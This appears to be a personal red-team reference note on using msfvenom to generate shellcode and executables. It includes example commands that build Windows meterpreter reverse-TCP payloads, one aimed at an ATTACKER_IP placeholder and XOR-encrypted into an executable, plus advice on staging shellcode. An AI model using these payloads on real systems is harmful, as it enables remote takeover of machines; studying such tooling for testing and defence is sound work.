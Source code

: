 MSFVenom is a Metaploit-produced payload generator for shellcode and executable generation. Its primary function will likely be for shellcode generation interoperable with [[Sliver]] or BOF applications. 

```shell
# Generate shellcode with msfvenom
msfvenom -p <payload name> <payload options> -a <architecture> -b <bad characters to avoid in shellcode generation> -o <output file> -f <output format>

# Example Windows Shellcode generation for use in a Python exploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b '\x00'

# Example encrypted meterpreter payload generation using XOR
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe

msfvenom --list encrypt # List encryption options.
```

>[!note]
>If you are staging your shellcode, generate in `raw` format to be downloaded by your custom stager.

Output architecture refer to the CPU architecture of the target machine: x86, arm, mips, powerpc, etc.

Payloads can be viewed with `--list payload`. Grep for what you need, because there's hundreds of options. 

Bad characters are specified as a string of bytes denoted like so: ``'\x00\x0a\x0b\x0c'``. If you are generating an agent or stager and *not* shellcode, bad characters should not be a concern. 

The output file flag tells msfvenom to output the data to a file and not to the screen. This should be used to output binary file formats but not necessarily shellcode destined for other code. 

The format flag tells msfvenom which code format to use when generating shellcode of which binary format or delivery format we want. For example, msfvenom can format a shellcode string as a python string or as a c string. It can also compile to an exe, and exe designed to run as a service, a powershell .ps1, etc. 
